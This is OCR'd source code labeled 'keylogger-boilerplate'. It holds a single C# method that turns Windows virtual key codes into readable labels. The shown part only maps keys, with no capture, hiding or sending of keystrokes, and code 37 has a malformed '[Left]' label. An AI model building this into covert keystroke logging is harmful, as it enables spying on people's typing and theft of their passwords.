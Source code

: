 # keylogger-boilerplate

        private String verifyKey(int code)
        {
            String key = "";

            if (code == 8) key = "[Back]";
            else if (code == 9) key = "[TAB]";
            else if (code == 13) key = "[Enter]";
            else if (code == 19) key = "[Pause]";
            else if (code == 20) key = "[Caps Lock]";
            else if (code == 27) key = "[Esc]";
            else if (code == 32) key = "[Space]";
            else if (code == 33) key = "[Page Up]";
            else if (code == 34) key = "[Page Down]";
            else if (code == 35) key = "[End]";
            else if (code == 36) key = "[Home]";
            else if (code == 37) key = "Left]";
            else if (code == 38) key = "[Up]";
            else if (code == 39) key = "[Right]";
            else if (code == 40) key = "[Down]";
            else if (code == 44) key = "[Print Screen]";
            else if (code == 45) key = "[Insert]";
            else if (code == 46) key = "[Delete]";
            else if (code == 48) key = "0";
            else if (code == 49) key = "1";
            else if (code == 50) key = "2";
            else if (code == 51) key = "3";
            else if (code == 52) key = "4";
            else if (code == 53) key = "5";
            else if (code == 54) key = "6";
            else if (code == 55) key = "7";
            else if (code == 56) key = "8";
            else if (code == 57) key = "9";
            else if (code == 65) key = "a";
            else if (code == 66) key = "b";
            else if (code == 67) key = "c";
            else if (code == 68) key = "d";
            else if (code == 69) key = "e";
            else if (code == 70) key = "f";
            else if (code == 71) key = "g";
            else if (code == 72) key = "h";
            else if (code == 73) key = "i";
            else if (code == 74) key = "j";
            else if (code == 75) key = "k";
            else if (code == 76) key = "l";
            else if (code == 77) key = "m";
            else if (code == 78) key = "n";
            else if (code == 79) key = "o";
            else if (code == 80) key = "p";
            else if (code == 81) key = "q";
            else if (code == 82) key = "r";
            else if (code == 83) key = "s";
            else if (code == 84) key = "t";
            else if (code == 85) key = "u";
            else if (code == 86) key = "v";
            else if (code == 87) key = "w";
            else if (code == 88) key = "x";
            else if (code == 89) key = "y";
            else if (code == 90) key = "z";
            else if (code == 91) key = "[Windows]";
            else if (code == 92) key = "[Windows]";
            else if (code == 93) key = "[List]";
            else if (code == 96) key = "0";
            else if (code == 97) key = "1";
            else if (code == 98) key = "2";
            else if (code == 99) key = "3";
            else if (code == 100) key = "4";
            else if (code == 101) key = "5";
            else if (code == 102) key = "6";
            else if (code == 103) key = "7";
            else if (code == 104) key = "8";
            else if (code == 105) key = "9";
            else if (code == 106) key = "*";
            else if (code == 107) key = "+";
            else if (code == 109) key = "-";
            else if (code == 110) key = ",";
            else if (code == 111) key = "/";
            else if (code == 112) key = "[F1]";
            else if (code == 113) key = "[F2]";
            else if (code == 114) key = "[F3]";
            else if (code == 115) key = "[F4]";
            else if (code == 116) key = "[F5]";
            else if (code == 117) key = "[F6]";
            else if (code == 118) key = "[F7]";
            else if (code == 119) key = "[F8]";
            else if (code == 120) key = "[F9]";
            else if (code == 121) key = "[F10]";
            else if (code == 122) key = "[F11]";
            else if (code == 123) key = "[F12]";
            else if (code == 144) key = "[Num Lock]";
            else if (code == 145) key = "[Scroll Lock]";
            else if (code == 160) key = "[Shift]";
            else if (code == 161) key = "[Shift]";
            else if (code == 162) key = "[Ctrl]";
            else if (code == 163) key = "[Ctrl]";
            else if (code == 164) key = "[Alt]";
            else if (code == 165) key = "[Alt]";
            else if (code == 187) key = "=";
            else if (code == 186) key = "ç";
            else if (code == 188) key = ",";
            else if (code == 189) key = "-";
            else if (code == 190) key = ".";
            else if (code == 192) key = "'";
            else if (code == 191) key = ";";
            else if (code == 193) key = "/";
            else if (code == 194) key = ".";
            else if (code == 219) key = "´";
            else if (code == 220) key = "]";
            else if (code == 221) key = "[";
            else if (code == 222) key = "~";
            else if (code == 226) key = "\\";
            else if (code == 1 || code == 2) key = ""; // Ovo je lijevi i desni klik
            else key = "[" + code + "]";

            return key;
        }
